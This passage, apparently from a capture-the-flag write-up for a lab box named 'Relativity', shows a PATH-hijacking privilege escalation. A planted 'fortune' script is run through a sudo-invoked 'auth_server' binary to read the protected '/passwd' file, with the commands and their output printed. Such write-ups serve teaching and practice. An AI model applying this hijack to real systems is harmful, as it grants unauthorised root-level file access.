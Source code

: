 Now we can create a POC to test if the `fortune` override works:

{% highlight python %}
#!/usr/bin/python
print 'a'
{% endhighlight %}

Checking this for jetta and sudo:

{% highlight bash %}
[jetta@Relativity auth_server]$ PATH=/home/jetta:$PATH ./auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
[jetta@Relativity auth_server]$ PATH=/home/jetta:$PATH sudo ./auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
{% endhighlight %}

Nice, we can then use this to read the content of the `/passwd` file:

{% highlight bash %}
#!/usr/bin/bash
cat /passwd
{% endhighlight %}

Result:

{% highlight bash %}
[jetta@Relativity auth_server]$ PATH=/home/jetta:$PATH sudo ./auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
 __________________________________
< b67def6bcb2112a963a3ade37773650e >
 ----------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
{% endhighlight %}
